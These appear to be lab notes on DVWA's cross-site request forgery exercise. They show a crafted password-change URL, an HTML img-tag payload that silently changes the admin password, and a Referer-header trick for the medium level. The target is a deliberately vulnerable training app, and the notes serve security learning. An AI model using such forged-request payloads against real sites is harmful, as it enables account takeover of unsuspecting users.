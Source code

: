 ```yaml
---
category: Uncategorized
tags: []
---
```

LOW

Notice how changing the password required no verification process as it's changed.  Now, look at the URL:

`http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#`

If we can get the "admin" user to visit the malicious URL, the password will be changed to whatever we want. We don't need to actually type in anything to the vulnerable form.

Save the following as an html file, open in browser, and now the DVWA creds have changed from `admin:password` to `admin:newpassword`
```html
<img src="http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#">/img>
```

MEDIUM

Same as low, except we need to add a header in the request:

Referer:  `http://dvwa.local/vulnerabilities/csrf/`
